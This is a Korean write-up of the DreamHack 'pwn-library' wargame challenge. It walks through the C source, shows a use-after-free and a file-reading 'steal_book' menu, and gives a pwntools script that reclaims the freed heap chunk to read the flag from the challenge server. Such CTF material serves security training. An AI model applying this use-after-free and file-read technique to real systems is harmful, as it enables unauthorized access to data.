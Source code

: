 # [DreamHack] pwn-library

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> 드림이가 오랜만에 도서관에 왔습니다! 원하는 책을 읽어볼까요?
> 플래그는 /home/pwnlibrary/flag.txt에 있습니다.
>
> Release: [pwn-library.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8555825/pwn-library.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/162669885-1bb0a98a-30dd-4993-b4ef-c7a3d5f45ee6.png)

## Analysis

### bookstruct

```c
struct bookstruct{
	char bookname[0x20];
	char* contents;
};
```

책 이름 `0x20`바이트와, 책 내용을 가리키는 포인터로 구성되어 있다.

### borrow_book()

```c
	if(booksize >= 0x50){
		printf("[*] book storage is full!\n");
		return 1;
	}
```

책은 최대 `0x50`개까지만 빌릴 수 있다.

```c
	__uint32_t select = 0;
	printf("[*] Welcome to borrow book menu!\n");
	booklist();
	printf("[+] what book do you want to borrow? : ");
	scanf("%u", &select);
	if(select == 1){
		strcpy(listbook[booksize].bookname, "theori theory");
		listbook[booksize].contents = (char *)malloc(0x100);
		memset(listbook[booksize].contents, 0x0, 0x100);
		strcpy(listbook[booksize].contents, "theori is theori!");
	} else if(select == 2){
		strcpy(listbook[booksize].bookname, "dreamhack theory");
		listbook[booksize].contents = (char *)malloc(0x200);
		memset(listbook[booksize].contents, 0x0, 0x200);
		strcpy(listbook[booksize].contents, "dreamhack is dreamhack!");
	} else if(select == 3){
		strcpy(listbook[booksize].bookname, "einstein theory");
		listbook[booksize].contents = (char *)malloc(0x300);
		memset(listbook[booksize].contents, 0x0, 0x300);
		strcpy(listbook[booksize].contents, "einstein is einstein!");

	} else{
		printf("[*] no book...\n");
		return 1;
	}
```

빌릴 수 있는 책의 종류는 `theori theory`, `dreamhack theory`, `einstein theory` 3가지이다. 각 책마다 할당되는 청크의 크기가 다르다.

```c
	printf("book create complete!\n");
	booksize++;
	return 0;
```

`booksize`를 1 증가시키고 리턴한다.

### read_book()

```c
	for(__uint32_t i = 0; i<booksize; i++){
		printf("%u : %s\n", i, listbook[i].bookname);
	}
	printf("[+] what book do you want to read? : ");
	scanf("%u", &select);
```

`listbook`에 있는 책들의 이름을 모두 출력하고, 어떤 책을 읽을지 선택을 받는다.

```c
	if(select > booksize-1){
		printf("[*] no more book!\n");
		return 1;
	}
	printf("[*] book contents below [*]\n");
	printf("%s\n\n", listbook[select].contents);
	return 0;
```

선택한 책의 내용을 출력하고 리턴한다.

### return_book()

```c
	if(!strcmp(listbook[booksize-1].bookname, "-----returned-----")){
		printf("[*] you alreay returns last book!\n");
		return 1;
	}
	free(listbook[booksize-1].contents);
	memset(listbook[booksize-1].bookname, 0, 0x20);
	strcpy(listbook[booksize-1].bookname, "-----returned-----");
	printf("[*] lastest book returned!\n");
	return 0;
```

`listbook`에서 맨 뒤에 있는 책을 반납한다. 책의 내용이 `contents`에 저장된 청크는 free시키고, `bookname`에는 `"-----returned-----"`를 넣는다. 하지만 반납한 책을 `listbook`에서 삭제하지 않기 때문에 내용을 읽을 수는 있다.

### steal_book()

```c
	scanf("%144s", buf);
	fp = fopen(buf, "r");
```

`buf`에 파일 이름을 입력하면 `fp`가 그 파일의 포인터가 된다.

```c
		fseek(fp, 0, SEEK_END);
    	filesize = ftell(fp);
    	fseek(fp, 0, SEEK_SET);
		printf("[*] how many pages?(MAX 400) : ");
		scanf("%u", &pages);
		if(pages > 0x190){
			printf("[*] it is heavy!!\n");
			return 1;
		}
		if(filesize > pages){
			filesize = pages;
		}
		secretbook.contents = (char *)malloc(pages);
		memset(secretbook.contents, 0x0, pages);
		__uint32_t result = fread(secretbook.contents, 1, filesize, fp);
```

읽어올 수 있는 내용은 최대 `0x190`바이트이다. `secretbook.contents`에 파일의 내용이 저장되므로, `/home/pwnlibrary/flag.txt` 파일을 열면 플래그가 저장된다.

```c
		memset(secretbook.bookname, 0, 0x20);
		strcpy(secretbook.bookname, "STOLEN BOOK");
		printf("\n[*] (Siren rangs) (Siren rangs)\n");
		printf("[*] Oops.. cops take your book..\n");
		fclose(fp);
		return 0;
```

`bookname`은 `"STOLEN BOOK"`이 되는데, contents는 그대로 남아있는 채로 함수가 리턴된다.

## Exploit

`theori theory`를 빌렸다가 반납하면 `0x110`바이트 크기의 청크 하나가 free된 상태가 된다. 이 상태에서 `steal_book()`으로 플래그를 `0x100`바이트만큼 읽어오면 free된 청크를 다시 할당하여 그 청크에 플래그가 저장된다. `read_book()`으로 반납했던 책의 내용을 읽으면 플래그를 획득할 수 있다.

```python
from pwn import *

REMOTE = True

if not REMOTE:
    r = process('./release/library')
else:
    r = remote('host1.dreamhack.games', 24395)

sla = r.sendlineafter

sla('[+] Select menu : ', '1')
sla('[+] what book do you want to borrow? : ', '1')
sla('[+] Select menu : ', '3')

sla('[+] Select menu : ', str(0x113))
sla('[+] whatever, where is the book? : ', '/home/pwnlibrary/flag.txt')
sla('[*] how many pages?(MAX 400) : ', str(0x100))

sla('[+] Select menu : ', '2')
sla('[+] what book do you want to read? : ', '0')

r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 24395: Done
[*] Switching to interactive mode
[*] book contents below [*]
DH{0fdbcef449355e5fb15f4a674724a3c8}


1. borrow book
2. read book
3. return book
4. exit library
[+] Select menu : $
```
